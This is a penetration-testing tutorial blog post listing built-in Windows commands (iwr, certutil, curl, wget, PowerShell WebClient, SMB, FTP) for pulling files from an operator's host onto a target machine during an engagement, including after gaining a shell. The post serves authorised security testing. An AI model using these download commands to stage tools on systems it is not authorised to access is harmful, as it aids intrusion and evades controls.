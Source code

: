 ```yaml
---
title: "Transfer Files To A Windows Machine"
layout: single
read_time: true
comments: true
share: true
author_profile: true
header:
  overlay_color: "#000"
  overlay_filter: "0.5"
  overlay_image: /assets/christopher-burns-Kj2SaNHG-hg-unsplash.jpg
excerpt: "<br><br><br>"
categories:
  - tutorial
tags:
  - cybersecurity
  - penetration testing
---
```


This section is pulling from my online notes [here](https://calvin-connor.gitbook.io/hacking-notes/general/transferring-files/transferring-files-to-windows), or at https://calvin-connor.gitbook.io/hacking-notes/general/transferring-files/transferring-files-to-windows.

## Overview

During an engagement, you may find certain tools do not exist, outbound ports have been blocked, and sometimes the machine is just too buggy to transfer your files the only way you know how. For this reason, I find it helpful to have an array of tools at my disposal. I would recommend practicing all the below examples until you know every way you can transfer a file in your specific scenario.

## IWR

```
powershell.exe iwr -uri 192.168.1.1/example.txt -o C:\Temp\example.txt
```

There are many options in which you can change this command for your scenario. For instance, if you are already in a PowerShell prompt, you need not include the powershell.exe. Additionally, I have found the .exe in powershell.exe unnecessary. The -o flag can also be written as -OutFile.

The iwr (Invoke Web Request) command can have several other syntaxes, of which I have listed below.

## Certutil

```
certutil.exe -urlcache -f http://192.168.1.1/example.txt example.txt
```

The purpose of the certutil command was originally for certificate and CA management, but by using certain flags we can use it as a built-in file transfer tool.

## Curl

```
curl http://192.168.1.1/example.txt -o example.txt
```

Curl is a Linux command line tool that is now available for Windows CMD.

Curl was added to Windows 10 and later in 2018.

## Wget

```
powershell.exe wget http://192.168.1.1/example.txt -OutFile example.txt
```

wget is a part of PowerShell, so if you are already in a PowerShell prompt, there is no need to include powershell.exe.

## PowerShell

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2/putty.exe', 'putty.exe')
```

Compared to iwr, this is a much more complex command. I have, however, found much success in this command where iwr may fail.

## SMB

```
net use 192.168.1.1\share //add credential lines here
copy 192.168.1.1\share\exampe.txt
```

SMB can be extremely useful when you need to regularly transfer files back and forth. I have run into instances where after losing my shell, my added SMB share is no longer functional. To fix this, I simply restart my SMB server under a different name and add it as a new share.

## FTP

```
ftp 192.168.1.1
```

Even if you are using FTP anonymously, you still need to enter the anonymous:anonymous credentials. Inside of FTP, you can always use the help command to see what options are available to you.



